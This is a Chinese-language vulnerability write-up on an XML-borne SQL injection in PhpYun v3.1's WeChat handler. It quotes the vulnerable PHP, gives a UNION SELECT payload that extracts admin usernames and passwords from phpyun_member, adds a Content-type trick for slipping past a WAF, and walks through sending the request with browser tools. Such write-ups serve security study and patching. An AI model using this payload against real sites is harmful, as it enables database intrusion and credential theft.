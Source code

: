 # Phpyun v3.1 xml 注入漏洞

> 原文：[http://book.iwonder.run/0day/PhpYun/Phpyun v3.1 xml 注入漏洞.html](http://book.iwonder.run/0day/PhpYun/Phpyun v3.1 xml 注入漏洞.html)

## 一、漏洞简介

函数过滤不严谨，用户 POST 过去的内容没有进行任何过滤，导致攻击者可以利用 XML 实体进行注入，从而获取数据库敏感信息

## 二、漏洞影响

3.1 build14061

## 三、复现过程

### 漏洞分析

本次漏洞文件位于 `weixin/model/index.class.php` ，代码如下：

private function responseMsg() { $postStr = $GLOBALS["HTTP_RAW_POST_DATA"];

```
if (!empty($postStr)){

             $postObj = simplexml_load_string($postStr, 'SimpleXMLElement', LIBXML_NOCDATA);
              $fromUsername = $postObj->FromUserName;
              $toUsername = $postObj->ToUserName;
              $keyword = trim($postObj->Content);
              $time = time();
              $textTpl = "<xml>
     <![CDATA[%s]]>
     <![CDATA[%s]]>
     %s
     <![CDATA[%s]]>
     <![CDATA[%s]]>
     0
     </xml>";
  if(!empty( $keyword ))
              {
              $msgType = "text";
               $contentStr = "Welcome to wechat world!";
               $resultStr = sprintf($textTpl, $fromUsername, $toUsername, $time, $msgType, $contentStr);
               echo $resultStr;
              }else{
               echo "Input something...";
              }

      }else {
       echo "";
       exit;
      }
  } 
```

这里将$postStr = $GLOBALS["HTTP_RAW_POST_DATA"]，通过 simplexml_load_string 解析后的内容，将其直接带入了$textTpl。

然而$postStr = $GLOBALS["HTTP_RAW_POST_DATA"] ，直接获取了 POST 过来的 XML 内容，没有经过任何处理，并在最后将其输出。 if($MsgType=='event') { $MsgEvent = $postObj->Event; if ($MsgEvent=='subscribe') { $centerStr = "<![CDATA[欢迎您关注".iconv('gbk','utf-8',$this->config['sy_webname'])."！/n 1：您可以直接回复关键字如【销售】、【南京 销售】、【南京 销售 XX 公司】查找您想要的职位/n 绑定您的账户体验更多精彩功能/n 感谢您的关注！]]>"; $this->MsgType = 'text';

```
 }elseif ($MsgEvent=='CLICK')
  {
   $EventKey = $postObj->EventKey;
   if($EventKey=='我的帐号'){
    $centerStr = $this->bindUser($fromUsername);

   }elseif($EventKey=='我的消息')
   {
    $centerStr = $this->myMsg($fromUsername);
   }elseif($EventKey=='面试邀请')
   {
    $centerStr = $this->Audition($fromUsername);

   }elseif($EventKey=='简历查看')
   {

    $centerStr = $this->lookResume($fromUsername);

   }elseif($EventKey=='刷新简历')
   {

    $centerStr = $this->refResume($fromUsername); 
```

从上述代码可以看出来，当满足那上面的条件后都会进入不同的相应的函数，但是都会进入一个名为`isBind`函数。

接下来追踪 isBind 函数：

private function isBind($wxid='') {

```
if($wxid)
{
 $User = $this->obj->DB_select_once("member","`wxid`='".$wxid."'","`uid`,`username`");
}
if($User['uid']>0)
{
 $User['bindtype'] = '1';
 $User['cenetrTpl'] = "<![CDATA[您的".iconv('gbk','utf-8',$this->config['sy_webname'])."帐号：".$User['username']."已成功绑定！ /n/n/n 您也可以 config['sy_weburl']."/wap/index.php?m=login&wxid=".$wxid."/">点击这里进行解绑或绑定其他帐号]]>";

}else{

 $Token = $this->getToken();
 $Url = 'https://api.weixin.qq.com/cgi-bin/user/info?access_token='.$Token.'&openid='.$wxid.'&lang=zh_CN';
 $CurlReturn  = $this->CurlPost($Url);
 $UserInfo    = json_decode($CurlReturn);

 $wxid        = $wxid;
 $wxname      = $UserInfo->nickname;
 $this->config['token_time'] = time();

 $User['cenetrTpl'] = '<![CDATA[您还没有绑定帐号，config['sy_weburl'].'/wap/index.php?m=login&wxid='.$wxid.'">点击这里进行绑定!]]>';
}

return $User;

} 
```

可以看到，从始至终 wxid 变量始终没有经过任何过滤，在第一行的`$wxid`就是我们传进来的 FromUserName 的值，可以直接进入 SQL 语句，进行任意注入。

因此我们可以针对其构造 Payload，内容如下：

一般来说，我们只需要将 Payload 以 POST 形式的数据发出去，就可以成功的获取数据库敏感信息，但是服务器如果有 WAF，提交的恶意数据必然会被拦截，因此，我们需要修改 HTTP 头，伪装成 XML 就可以不受到 WAF 的拦截：

```
Content-type:text/xml;charset=utf-8 
```

### 漏洞复现

我们首先打开目标站点，点击网页左侧注册按钮，首先注册一个账号：

![image](img/d70ec7b6151ac65371d47ff0abd4e5b0.png)

这个时候已经是登录状态，我们按`F9` 调出 `Hack Bar` 的界面，点击`Enable Post data` ，将 Payload 写入输入框，如下图所示：

![image](img/72f529b17aa57fd0115ee0a32f6ff947.png)

#### payload 文件:

##### 注:payload 文件内容需手动输入相应位置

```
<?xml version="1.0" encoding="utf-8"?>
  <xml>
    1111
    1111' and 1=2 union select 1,(select concat(username,password) from phpyun_member limit 0,1)#
    1402550611
    event
    CLICK
    我的账号
    0
  </xml> 
```

接下来还需要修改 HTTP 头，伪装成 XML，点击浏览器上方工具栏，打开`Tamper Data` ，点击启动。

![image](img/ddaf982d13c7bb602f2ee79be31fa272.png)

现在前提工作已经做好，接下来重新访问网站，Tamper Data 就会抓取到数据包，再对数据包进行更改，操作如图：

![image](img/16301a6659ee141a4eb295fadef8f6dc.png)

然后点击确定就可以将构造好的数据包发出去：

![image](img/2169c6898a91b9b004cbd2b181a36841.png)

成功获取管理员账号密码。

## 参考链接

> [https://blog.csdn.net/whatiwhere/article/details/84862236](https://blog.csdn.net/whatiwhere/article/details/84862236)

